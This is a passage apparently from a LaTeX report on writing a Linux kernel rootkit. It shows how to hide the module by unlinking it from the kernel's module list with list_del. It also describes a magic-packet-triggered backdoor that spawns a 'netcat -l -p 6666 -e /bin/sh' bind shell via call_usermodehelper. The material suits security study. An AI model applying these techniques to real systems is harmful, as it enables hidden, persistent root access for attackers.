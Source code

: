 \documentclass[12pt]{article}
\newcommand{\shellcmdinline}[1]{\texttt{\footnotesize #1}}
\begin{document}
This sounds hard at first but it is rather easy. We can use the special exported symbol \texttt{extern struct module \_\_this\_module;} which points to the module we are currently in. The module structure, see Listing \ref{module}, has a field \texttt{list} that points to the list of all modules. 

\begin{lstlisting}[caption=Extract from Linux/include/linux/module.h, label=module]


struct module {
         enum module_state state;
 
         /* Member of list of modules */
         struct list_head list;
 
         /* Unique handle for this module */
         char name[MODULE_NAME_LEN];

         .
         .
         .

         // skipped for brevity
}
 
\end{lstlisting}

That means to hide the module from detection we only need to delete it from the list of modules and we are done. Luckily the kernel provides us with handy list manipulation functions. Finally our effort boils down to one line of code as you can see in Listing \ref{hide}.

\begin{lstlisting}[caption=Hide the current module., label=hide]
	list_del(&(__this_module.list));
\end{lstlisting}



\subsection{Backdoor}
The dream of every attacker is a backdoor into every system he is interested in. As we have already compromised the system in our scenario and have gained root access (installation of the rootkit) the task of spawning a backdoor to gain access to the system any time we want is rather easy. What we also wanted to achieve is that the backdoor is not active all the time but can be activated whenever needed. Again magic packets, as described in \ref{sec:magicpackage} are used to activate the backdoor. The backdoor itself is achieved by simply spawning a \shellcmdinline{netcat -l -p 6666 -e /bin/sh} process in userland. This is done via the \shellcmdinline{call\_usermodehelper} function. Listing \ref{backdoof} shows the spawning function.
\end{document}
